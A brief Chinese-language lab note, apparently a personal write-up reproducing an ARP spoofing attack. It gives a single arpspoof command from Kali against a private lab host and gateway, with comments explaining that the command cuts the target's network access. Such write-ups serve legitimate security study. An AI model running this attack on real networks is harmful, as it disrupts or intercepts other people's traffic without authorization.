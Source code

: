 攻击之前先确定目标客户机可上网

![image-20221013223808255](arp%E6%94%BB%E5%87%BB%E5%A4%8D%E7%8E%B0.assets/image-20221013223808255.png)

执行命令：

```php
# 这条命令的意思：
# -i 指定网卡 eth0 kali自己的网卡
# -t 指定目标主机IP
# 192.168.96.133 目标主机IP
# 192.168.96.2 网关的IP
# 意思就是不停的告诉 目标主机， 我是网关我是网关， 然后就断网了
arpspoof -i eth0 -t 192.168.96.133 192.168.96.2
```

![image-20221013224128308](arp%E6%94%BB%E5%87%BB%E5%A4%8D%E7%8E%B0.assets/image-20221013224128308.png)

